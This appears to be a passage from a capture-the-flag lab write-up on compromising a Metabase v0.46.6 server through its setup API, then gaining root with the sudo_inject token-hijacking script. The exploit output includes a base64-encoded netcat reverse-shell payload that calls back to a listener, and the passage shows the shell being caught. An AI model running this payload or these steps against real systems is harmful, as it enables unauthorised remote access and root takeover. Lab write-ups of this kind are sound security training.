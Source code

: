 ```python
```
Don't forget to change the command to make a reverse shell connection to your IP. Start a netcat listener on port 443 and run the script:
```bash
$ python3 exploit.py -u http://metabase.apethanto.htb
Target Host: http://metabase.apethanto.htb
Setup Token: 819139a8-1ce9-46f0-acf8-9b4fc0d1164b
Version: v0.46.6
Sending payload: cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMjQwIDQ0MyA+L3RtcC9m
Sending POST request to http://metabase.apethanto.htb/api/setup/validate...

Reverse shell request sent successfully.
```
We instantly get a callback on our listener:
```bash
sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.240] from (UNKNOWN) [10.129.240.39] 59728
bash: cannot set terminal process group (730): Inappropriate ioctl for device
bash: no job control in this shell

metabase@Apethanto:~$
```

We now have a shell as the metabase user. The user flag can be found at `/home/metabase/user.txt`.

### Privilege Escalation
The only thing that stands out is that we are part of the `sudo` group.
```bash
metabase@Apethanto:~$ id

uid=998(metabase) gid=998(metabase) groups=998(metabase),27(sudo)
```
Looking around the web for more information, we find [this](https://github.com/nongiach/sudo_inject) project. We copy `exploit_v3.sh` from  the repo to our target. Then, we make it executable and execute it.
```
chmod +x exploit_v3.sh
./exploit_v3.sh
```
It might not work the first time if the SUDO token is expired, so after a few tries it should give us a root shell.
```bash
metabase@Apethanto:/tmp$ ./exploit_v3.sh
Injecting process 1038 -> bash
Injecting process 1041 -> bash
Injecting process 1047 -> bash
Injecting process 1198 -> bash
Injecting process 1275 -> bash

root@Apethanto:~# 
```
